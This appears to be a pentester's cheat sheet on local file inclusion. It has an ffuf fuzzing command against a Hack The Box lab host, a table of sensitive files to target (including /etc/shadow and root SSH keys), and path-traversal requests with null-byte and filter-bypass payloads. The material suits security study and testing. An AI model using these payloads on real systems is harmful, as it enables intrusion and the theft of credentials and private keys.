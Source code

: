 # LFI enumeration
Read more https://book.hacktricks.xyz/pentesting-web/file-inclusion

```bash
# Enumerate the page query parameter for LFI vulneratbility
ffuf -w /usr/share/wordlists/lfi.txt -u http://preprod-marketing.trick.htb/index.php?page=FUZZ -fw 1
```

### Common path to test
|                             |                                                                                                                                                                   |
|:---------------------------:|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------:|
| /etc/issue                  | Contains a message or system identification to be printed before the login prompt.                                                                                |
| /etc/profile                | Controls system-wide default variables, such as Export variables, File creation mask (umask), Terminal types, Mail messages to indicate when new mail has arrived |
| /proc/version               | Specifies the version of the Linux kernel                                                                                                                         |
| /etc/passwd                 | Has all registered user that has access to a system                                                                                                               |
| /etc/shadow                 | Contains information about the system's users' passwords                                                                                                          |
| /root/.bash_history         | Contains the history commands for root user                                                                                                                       |
| /var/log/dmessage           | Contains global system messages, including the messages that are logged during system startup                                                                     |
| /var/mail/root              | All emails for root user                                                                     |
| /root/.ssh/id_rsa           | Private SSH keys for a root or any known valid user on the server                                                 |
| /var/log/apache2/access.log | The accessed requests for Apache  webserver                                                            |
| C:\boot.ini                 | Contains the boot options for computers with BIOS firmware                                                    |

### Test if null bytes can be used to bypass file extensions
It may be possible to override the end of the include statement by sending a null byte which tricks the application to disregard anything after it. `%00` (Url encoded) or `0x00` (Hex).

An include like this 

```php
include($_GET["filename"] . ".php");
```

Could be vulnerable to an attack like this. (Fixed in PHP 5.3.4 and above.)


```HTTP
GET http://site.com/index.php?filename=../../../../etc/passwd%00
```

### Filter bypass
It's possible that there's a filter applied that disallowes files. In that case it could be possible to bypass the filter by sending a null byte `(%00 or 0x00)` or by adding the current directory `(.)` to the end of the file path. 

If there's for example a filter disallowing the `/etc/passwd` file it might be possible to bypass it with one of these requests.

**Null Byte**
```HTTP
GET http://site.com/index.php?filename=../../../../etc/passwd%00
```

**Current directory**
```HTTP
GET http://site.com/index.php?filename=../../../../etc/passwd/.
```
